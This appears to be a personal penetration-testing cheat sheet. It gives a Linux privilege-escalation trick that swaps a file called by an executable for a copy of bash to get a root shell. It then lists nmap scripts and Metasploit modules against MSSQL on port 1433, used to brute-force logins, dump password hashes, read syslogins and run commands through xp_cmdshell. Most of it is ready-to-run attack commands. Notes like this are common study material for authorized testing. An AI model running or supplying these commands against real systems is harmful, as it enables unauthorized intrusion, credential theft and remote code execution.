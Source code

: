 #Linux Priv Escalation

#### Possibility 1
Find a executable which links to another file. Try to edit the other file to embed mallicious code to gain root access

```bash
#find greetings file embedded into welcome executable
strings welcome

#remove original greetings
rm greetings

#make a copy of bash and call it greetings
cp /bin/bash greetings

#execute welcome file
./welcome
```

# MSSQL: 1433

```bash
## nmap
nmap -sV -sC -p 1433 <TARGET_IP>

nmap -p 1433 --script ms-sql-info <TARGET_IP>
nmap -p 1433 --script ms-sql-ntlm-info --script-args mssql.instance-port=1433 <TARGET_IP>
nmap -p 1433 --script ms-sql-empty-password <TARGET_IP>
nmap -p 1433 --script ms-sql-brute --script-args userdb=/root/Desktop/wordlists/common_user.txt, passdb=/root/Desktop/wordlists/100-common-password.txt <TARGET_IP>
nmap -p 1433 --script ms-sql-query --script-args mssql.username=sa,mssql.password=sa,ms-sql-query.query="SELECT * FROM master..syslogins" -oN output.txt <TARGET_IP>
nmap -p 1433 --script ms-sql-dump-hashes --script-args mssql.username=<name>,mssql.password=<> <TARGET_IP>
nmap -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=<name>,mssql.password=<>,mssql-xp-cmdshell.cmd="ipconfig" <TARGET_IP>

## Metasploit
use auxiliary/admin/mssql/mssql_enum
use auxiliary/admin/mssql/mssql_enum_sql_logins
use auxiliary/admin/mssql/mssql_exec
use auxiliary/admin/mssql/mssql_enum_domain_accounts

exploit/windows/mssql/mssql_payload
exploit/windows/mssql/mssql_payload_sqli
```

# Meterpreter 
getprivsps

